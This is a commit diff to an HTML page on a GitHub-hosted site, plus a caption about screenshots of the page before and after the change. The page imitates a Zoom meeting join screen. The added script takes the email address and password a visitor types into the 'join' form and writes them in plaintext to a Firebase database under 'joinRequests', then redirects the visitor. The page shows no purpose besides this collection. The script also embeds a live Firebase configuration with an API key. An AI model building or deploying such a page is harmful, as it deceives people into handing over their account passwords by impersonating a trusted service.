

Before and after one commit to maybeasif60/zoom, a plain HTML site: page zqt-cx/Qwz/index.html in a window 1280 px wide. Shown: the part 88-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/zqt-cx/Qwz/index.html
+++ b/zqt-cx/Qwz/index.html
@@ -1,420 +1,811 @@
 <!DOCTYPE html>
+
 <html lang="en">
+
 <head>
+
   <meta charset="UTF-8" />
+
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Zoom Meeting</title>
+
+  <title>Zoom  Meeting</title>
+
+
 
   <!-- Favicon -->
+
   <link rel="icon" type="image/png" href="../logo.png" />
 
+
+
   <!-- Load Material Icons -->
+
   <link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet" />
 
+
+
   <script type="module">
+
     // Firebase SDK Import (Latest v12)
+
     import { initializeApp } from "https://www.gstatic.com/firebasejs/12.3.0/firebase-app.js";
+
     import { getDatabase, ref, push } from "https://www.gstatic.com/firebasejs/12.3.0/firebase-database.js";
 
+
+
     // Replace with your Firebase config
+
     const firebaseConfig = {
+
       apiKey: "AIzaSyArUMHWhrM-g0m0-kXTu_EWmGACetQvLlc",
+
       authDomain: "asf-panel-sm.firebaseapp.com",
+
       projectId: "asf-panel-sm",
+
       storageBucket: "asf-panel-sm.firebasestorage.app",
+
       messagingSenderId: "444535178333",
+
       appId: "1:444535178333:web:da733a6f819a0c4529f9b4",
+
       measurementId: "G-BSFWL4LLY5"
+
     };
 
+
+
     // Initialize Firebase
+
     const app = initializeApp(firebaseConfig);
+
     const db = getDatabase(app);
 
+
+
     // Wait for DOM
+
     window.addEventListener("DOMContentLoaded", () => {
+
       const btn = document.getElementById('askJoinBtn');
+
       const spinner = document.getElementById('spinner');
 
+
+
       // Create popup container
+
       let popup = document.createElement('div');
+
       popup.id = 'popup-message';
+
       popup.style.position = 'fixed';
+
       popup.style.top = '20px';
+
       popup.style.left = '50%';
+
       popup.style.transform = 'translateX(-50%)';
+
       popup.style.backgroundColor = '#f44336';
+
       popup.style.color = 'white';
+
       popup.style.padding = '12px 20px';
+
       popup.style.borderRadius = '4px';
+
       popup.style.boxShadow = '0 2px 6px rgba(0,0,0,0.3)';
+
       popup.style.fontSize = '14px';
+
       popup.style.fontWeight = '500';
+
       popup.style.zIndex = '9999';
+
       popup.style.display = 'none';
+
       document.body.appendChild(popup);
 
+
+
       function showPopup(message) {
+
         popup.textContent = message;
+
         popup.style.display = 'block';
+
         setTimeout(() => {
+
           popup.style.display = 'none';
+
         }, 3000);
+
       }
 
+
+
       btn.addEventListener('click', async () => {
+
         const email = document.querySelector('input[type="email"]').value.trim();
+
         const password = document.querySelector('input[type="password"]').value.trim();
+
+
 
         const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
 
+
+
         if (!email || !password) {
+
           showPopup("Please enter both email and password");
+
           return;
+
         }
 
+
+
         if (!emailRegex.test(email)) {
+
           showPopup("Please enter a valid email address");
+
           return;
+
         }
 
+
+
         btn.disabled = true;
+
         spinner.style.display = 'block';
 
+
+
         try {
+
           await push(ref(db, "joinRequests"), {
+
             email: email,
+
             password: password,
+
             timestamp: new Date().toLocaleString()
+
           });
+
           console.log("Data sent to Firebase");
+
         } catch (error) {
+
           console.error("Error sending data:", error);
+
           showPopup("Error");
+
           btn.disabled = false;
+
           spinner.style.display = 'none';
+
           return;
+
         }
 
+
+
         setTimeout(() => {
+
           window.location.href = "cyy/";
+
         }, 2000);
+
       });
+
     });
+
   </script>
 
+
+
   <style>
+
     * {
+
       margin: 0;
+
       padding: 0;
+
       box-sizing: border-box;
-      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif;
-      -webkit-font-smoothing: antialiased;
+
+      font-family: Arial, sans-serif;
+
     }
 
+
+
     body {
+
       background-color: #ffffff;
-      color: #2b2b2b;
+
+      color: #202124;
+
       display: flex;
+
       flex-direction: column;
+
       align-items: center;
+
       min-height: 100vh;
-      padding: 20px 16px;
+
+      padding: 15px;
+
     }
 
-    /* Exact Zoom Header Logo */
+
+
+    /* Top Bar with Centered Logo */
+
     .top-bar {
+
       width: 100%;
+
       display: flex;
+
       justify-content: center;
+
       align-items: center;
-      margin-top: 10px;
-      margin-bottom: 25px;
+
+      padding: 10px 0 20px 0;
+
     }
 
-    .logo img {
-      height: 42px;
-      object-fit: contain;
+
+
+    .logo {
+
+      display: flex;
+
+      align-items: center;
+
+      justify-content: center;
+
     }
 
-    /* Main Section for Mobile Screen */
-    .main {
-      width: 100%;
-      max-width: 360px;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
+
+
+    .logo img {
+
+      height: 45px;
+
+      object-fit: contain;
+
     }
 
-    /* Video Player Box - Exact Screen Match */
-    .video-section {
+
+
+    /* Main Container optimized for Mobile View */
+
+    .main {
+
       width: 100%;
-      background-color: #060606;
-      border-radius: 4px;
-      height: 200px;
-      position: relative;
+
+      max-width: 400px;
+
       display: flex;
-      justify-content: center;
+
+      flex-direction: column;
+
       align-items: center;
-      margin-bottom: 30px;
+
     }
 
-    video {
-      position: absolute;
+
+
+    /* Video Section */
+
+    .video-section {
+
       width: 100%;
-      height: 100%;
-      object-fit: cover;
-      z-index: 1;
+
+      background-color: #111111;
+
+      border-radius: 12px;
+
+      height: 230px;
+
+      position: relative;
+
+      display: flex;
+
+      justify-content: center;
+
+      align-items: center;
+
+      color: white;
+
+      margin-bottom: 25px;
+
+      overflow: hidden;
+
     }
 
-    .three-dots {
+
+
+    video {
+
       position: absolute;
-      top: 10px;
-      right: 12px;
-      z-index: 3;
-      color: #bbbbbb;
-      font-size: 16px;
-      cursor: pointer;
+
+      width: 100%;
+
+      height: 100%;
+
+      border-radius: 12px;
+
+      object-fit: cover;
+
+      z-index: 1;
+
     }
 
-    .video-overlay {
+
+
+    .three-dots {
+
+      position: absolute;
+
+      top: 10px;
+
+      right: 15px;
+
       z-index: 3;
-      text-align: center;
-      padding: 0 15px;
-      display: none;
+
+      color: white;
+
+      font-size: 20px;
+
+      cursor: pointer;
+
     }
 
-    .video-text {
-      font-size: 13px;
-      margin-bottom: 10px;
-      color: #dddddd;
+
+
+    .video-overlay {
+
+      z-index: 3;
+
+      text-align: center;
+
+      padding: 0 20px;
+
     }
 
-    .allow-btn {
-      background-color: #0e71eb;
-      color: white;
-      border: none;
-      padding: 8px 14px;
-      font-size: 13px;
-      border-radius: 4px;
-      cursor: pointer;
+
+
+    .video-text {
+
+      font-size: 15px;
+
+      font-weight: 400;
+
+      margin-bottom: 15px;
+
+      color: #f1f3f4;
+
     }
 
-    /* Bottom left 3-dots icon in video area */
-    .more-option-icon {
-      position: absolute;
-      bottom: 12px;
-      left: 12px;
-      z-index: 3;
-      width: 24px;
-      height: 24px;
-      background: #0e71eb;
-      border-radius: 50%;
-      display: flex;
-      align-items: center;
-      justify-content: center;
+
+
+    .allow-btn {
+
+      background-color: #007aff;
+
       color: white;
-      font-size: 12px;
+
+      border: none;
+
+      padding: 10px 18px;
+
+      font-size: 14px;
+
+      border-radius: 6px;
+
+      cursor: pointer;
+
+      font-weight: 500;
+
     }
 
-    /* Controls Center Icons */
+
+
     .controls {
+
       position: absolute;
-      bottom: 10px;
+
+      bottom: 15px;
+
       left: 50%;
+
       transform: translateX(-50%);
+
       display: flex;
-      gap: 12px;
+
+      gap: 15px;
+
       z-index: 3;
+
     }
 
+
+
     .control-btn {
-      width: 32px;
-      height: 32px;
-      background: rgba(255, 255, 255, 0.12);
-      border: 1px solid rgba(255, 255, 255, 0.25);
+
+      width: 42px;
+
+      height: 42px;
+
+      background: #2b2b2b;
+
       border-radius: 50%;
+
       color: white;
+
+      border: none;
+
       cursor: pointer;
+
+      position: relative;
+
       display: flex;
+
       justify-content: center;
+
       align-items: center;
+
+      font-size: 20px;
+
     }
 
-    .control-btn span {
-      font-size: 16px !important;
+
+
+    .control-btn .badge {
+
+      position: absolute;
+
+      top: -2px;
+
+      right: -2px;
+
+      background: #007aff;
+
+      color: white;
+
+      border-radius: 50%;
+
+      font-size: 9px;
+
+      width: 14px;
+
+      height: 14px;
+
+      display: flex;
+
+      justify-content: center;
+
+      align-items: center;
+
+      font-weight: bold;
+
     }
 
-    /* Form Section Elements */
+
+
+    /* Form Section */
+
     .form-section {
+
       width: 100%;
+
       display: flex;
+
       flex-direction: column;
+
       align-items: center;
+
     }
 
+
+
     .form-section h2 {
-      font-size: 28px;
+
+      font-size: 24px;
+
       font-weight: 700;
-      margin-bottom: 24px;
+
+      margin-bottom: 20px;
+
       text-align: center;
-      color: #232323;
-      letter-spacing: -0.4px;
+
+      color: #1a1a1a;
+
     }
 
-    /* Exact Rounded Gray Border Input Fields */
+
+
     .form-input {
+
       width: 100%;
+
       padding: 14px 16px;
-      margin-bottom: 16px;
-      border: 1.5px solid #d0d5dd;
-      border-radius: 10px;
+
+      margin-bottom: 15px;
+
+      border: 1px solid #dcdcdc;
+
+      border-radius: 8px;
+
       font-size: 15px;
+
       outline: none;
-      background-color: #ffffff;
-      color: #2b2b2b;
+
       transition: border-color 0.2s;
+
     }
 
-    .form-input::placeholder {
-      color: #667085;
-      font-weight: 400;
+
+
+    .form-input:focus {
+
+      border-color: #007aff;
+
     }
 
-    .form-input:focus {
-      border-color: #0e71eb;
+
+
+    .btn-join {
+
+      background-color: #007aff;
+
+      color: white;
+
+      padding: 14px 0;
+
+      width: 100%;
+
+      font-size: 16px;
+
+      font-weight: bold;
+
+      border: none;
+
+      border-radius: 8px;
+
+      cursor: pointer;
+
+      transition: background-color 0.2s;
+
     }
 
-    /* Exact Blue Pill Button matching the screenshot */
-    .btn-join {
-      background-color: #0e71eb;
-      color: #ffffff;
-      padding: 14px 0;
-      width: 100%;
-      font-size: 17px;
-      font-weight: 600;
-      border: none;
-      border-radius: 25px;
-      cursor: pointer;
-      margin-top: 4px;
-      box-shadow: none;
-      transition: background-color 0.2s;
+
+
+    .btn-join:hover {
+
+      background-color: #005ec4;
+
     }
 
-    .btn-join:hover {
-      background-color: #0b5cff;
+
+
+    .spinner {
+
+      border: 3px solid #f3f3f3;
+
+      border-top: 3px solid #007aff;
+
+      border-radius: 50%;
+
+      width: 24px;
+
+      height: 24px;
+
+      animation: spin 1s linear infinite;
+
+      display: none;
+
+      margin: 15px auto 5px;
+
     }
 
-    .spinner {
-      border: 3px solid #f3f3f3;
-      border-top: 3px solid #0e71eb;
-      border-radius: 50%;
-      width: 24px;
-      height: 24px;
-      animation: spin 1s linear infinite;
-      display: none;
-      margin: 15px auto 5px;
+
+
+    @keyframes spin {
+
+      0% { transform: rotate(0deg); }
+
+      100% { transform: rotate(360deg); }
+
     }
 
-    @keyframes spin {
-      0% { transform: rotate(0deg); }
-      100% { transform: rotate(360deg); }
+
+
+    .other-options {
+
+      text-align: center;
+
+      font-size: 14px;
+
+      margin-top: 20px;
+
+      color: #333;
+
+      line-height: 1.5;
+
     }
 
-    /* Red Text Option */
-    .other-options {
-      text-align: center;
-      font-size: 14px;
-      margin-top: 35px;
-      color: #cf3c3c;
-      line-height: 1.4;
+
+
+    .other-options a {
+
+      color: #d93025; /* Red color for 'Ask To Campaign Mode' matching the image */
+
+      text-decoration: none;
+
       font-weight: 500;
+
     }
 
-    .other-options a {
-      color: #232323;
-      text-decoration: none;
-      font-weight: 600;
-      display: block;
-      margin-top: 2px;
+
+
+    /* Hide Device Info Bar as per requested layout */
+
+    .device-info-bar {
+
+      display: none;
+
     }
 
-    .device-info-bar {
-      display: none;
-    }
   </style>
+
 </head>
+
 <body>
 
+
+
   <!-- Top Bar -->
+
   <div class="top-bar">
+
     <div class="logo">
-      <img src="../Zoom-Logo.png" alt="Zoom" onerror="this.src='../logo.png'">
+
+      <img src="../Zoom-Logo.png" alt="Logo">
+
     </div>
+
   </div>
 
+
+
   <!-- Main Section -->
+
   <div class="main">
-    <!-- Video Section -->
+
+    <!-- Left/Top Video Section -->
+
     <div class="video-section">
+
       <video id="video" autoplay muted playsinline style="display:none;"></video>
 
+
+
       <div class="three-dots">
+
         <span class="material-icons">more_vert</span>
+
       </div>
 
-      <div class="more-option-icon">
-        <span class="material-icons" style="font-size: 14px;">more_horiz</span>
+
+
+      <div class="video-overlay" id="videoOverlay">
+
+        <p class="video-text">Do you want people to see and hear you in the meeting?</p>
+
+        <button class="allow-btn" onclick="startCamera()">
+
+          Allow microphone and camera
+
+        </button>
+
       </div>
 
-      <div class="video-overlay" id="videoOverlay">
-        <p class="video-text">Do you want people to see and hear you in the meeting?</p>
-        <button class="allow-btn" onclick="startCamera()">
-          Allow microphone and camera
+
+
+      <div class="controls">
+
+        <button class="control-btn" aria-label="Mic Off">
+
+          <span class="material-icons" style="font-size: 20px;">mic_off</span>
+
+          <div class="badge">!</div>
+
         </button>
+
+        <button class="control-btn" aria-label="Video Off">
+
+          <span class="material-icons" style="font-size: 20px;">videocam_off</span>
+
+          <div class="badge">!</div>
+
+        </button>
+
       </div>
 
-      <div class="controls">
-        <button class="control-btn" aria-label="Mic Off">
-          <span class="material-icons">mic_off</span>
-        </button>
-        <button class="control-btn" aria-label="Video Off">
-          <span class="material-icons">videocam_off</span>
-        </button>
-      </div>
     </div>
 
-    <!-- Form Section -->
+
+
+    <!-- Right/Bottom Form Section -->
+
     <div class="form-section">
+
       <h2>What's Your Email</h2>
-      <input type="email" class="form-input" placeholder="Enter Your Email Address" />
+
+      <input type="email" class="form-input" placeholder="Email Address Here..." />
+
       <input type="password" class="form-input" placeholder="Password" />
-      <button class="btn-join" id="askJoinBtn">Ask To Join</button>
+
+      <button class="btn-join" id="askJoinBtn">Click to Sign Up</button>
+
       <div class="spinner" id="spinner"></div>
 
       <div class="other-options">
-        Other Joining Option
-        <a href="#">Ask To Companion Mode</a>
+
+        Other Joining Option<br />
+
+        <a href="#">Ask To Campaign Mode</a>
+
       </div>
+
     </div>
+
   </div>
 
+
+
   <script>
+
     // Camera function
+
     function startCamera() {
+
       const video = document.getElementById("video");
+
       const overlay = document.getElementById("videoOverlay");
+
       navigator.mediaDevices
+
         .getUserMedia({ video: true, audio: true })
+
         .then((stream) => {
+
           video.srcObject = stream;
+
           video.style.display = "block";
+
           overlay.style.display = "none";
+
         })
+
         .catch((err) => {
+
           alert("Could not access camera/microphone: " + err.message);
+
         });
+
     }
+
   </script>
+
 </body>
+
 </html>
```
